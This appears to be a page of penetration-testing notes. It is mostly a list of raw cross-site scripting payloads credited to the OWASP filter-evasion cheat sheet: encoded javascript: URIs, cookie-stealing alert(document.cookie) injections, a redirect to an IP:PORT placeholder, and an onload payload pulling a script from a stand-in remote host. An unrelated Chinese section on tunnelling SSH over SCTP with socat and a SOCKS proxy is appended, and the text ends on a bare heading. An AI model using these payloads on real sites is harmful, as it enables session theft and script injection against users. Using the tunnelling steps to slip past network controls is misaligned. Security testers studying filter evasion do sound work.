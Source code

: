 https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")

<script>document.location=http://IP:PORT</script>

';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

";!–"<XSS>=&amp;amp;{()}

<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>

<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">

perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out

<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)

<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
SSH Over SCTP (使用 Socat)

# 远端服务器
# 假设你准备让 SCTP socket 监听端口 80/SCTP 并且 sshd 端口在 22/TCP
$ socat SCTP-LISTEN:80,fork TCP:localhost:22

# 本地端
# 将 SERVER_IP 换成远端服务器的地址，然后将 80 换成 SCTP 监听的端口号
$ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80

# 创建 socks 代理
# 替换 username 和 -p 的端口号
$ ssh -lusername localhost -D 8080 -p 1337
使用洋葱网络
